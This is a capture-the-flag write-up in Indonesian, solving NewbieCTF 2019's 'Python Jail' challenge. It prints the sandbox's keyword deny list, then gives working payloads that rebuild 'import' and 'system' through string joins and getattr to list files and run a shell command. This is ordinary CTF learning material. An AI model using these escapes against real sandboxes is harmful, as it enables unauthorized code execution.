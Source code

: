 ```yaml
---
slug: writeup-newbiectf-2019
title: Writeup NewbieCTF 2019
date: 2019-11-03
author: Bardizba
keywords: [WRITE-UP NewbieCTF 2019]
description: WRITE-UP NewbieCTF 2019
excerpt: WRITE-UP NewbieCTF 2019
tags : ["ctf"]
---
```

![ctf](./gambar.png)
NewbieCTF 2019
A cool CTF from CTF Team KorNewbie, Three High school clubs(D.I.S, CPU, N.I.T)

newbie CTF cocok buat yang mau belajar CTF, karna soal nya masih tergolong mudah. sayangnya forensiknya file nya gede - gede wkwk. dan web exploit nya cuma satu.

# Pwnable
## Python Jail

    Hi! Welcome to pyjail!
    Escape Jail If you can!

    Author: SPark
    nc prob.vulnerable.kr 20001

saat dibuka nc-nya, terdapat sebuah python sandbox dengan kdoe seperti berikut yang akan mengeksekusi input pada perintah __exec(text)__ 

```python
#! /usr/bin/python3
#-*- coding:utf-8 -*-
def main():
    print("Hi! Welcome to pyjail!")
    print("========================================================================")
    print(open(__file__).read())
    print("========================================================================")
    print("RUN")
    text = input('>>> ')
    for keyword in ['eval', 'exec', 'import', 'open', 'os', 'read', 'system', 'write']:
        if keyword in text:
            print("No!!!")
            return;
    else:
        exec(text)
if __name__ == "__main__":
    main()
```


biasanya sandbox seperti ini bisa kita akali dengan memanfaatkan *predifined variable/function* yang ada. di python kita bisa memanfaatkan variable __\_\_builtins\_\___.


karena code yang diberikan tidak memperbolehkan payload berisi keyword berikut : ['eval', 'exec', 'import', 'open', 'os', 'read', 'system', 'write']. maka kita akali dengan fungsi join string yang ada di python.kita coba masukan payload berikut untuk mendapatkan list direktorinya: 
    
```python
print(__builtins__.__dict__[''.join(['__impor','t__'])](''.join(['o','s'])).listdir('/home/python_jail'))
```
hasilnya : 

```python
['.bashrc', '.profile', '.bash_logout', 'flag', 'python_jail.py']
```

ternyata terdapat file *flag*. kita coba buka file flag tersebut dengan methos *os.system* pada python. lagi - lagi karena keyword system di banned pada code, maka kita bisa menggunakan fungsi getattr supaya bisa memanggil method system* menggunakan string.
kita menggunakan payload berikut :
    
```python
print(getattr(__builtins__.__dict__[''.join(['__impor','t__'])](''.join(['o','s'])),"".join(['sys','tem']))('cat /home/python_jail/flag'))
```

dan dipatkan flag :

```bash
KorNewbie{H311o_h0w_@r3_y0u_d0lng?}
```

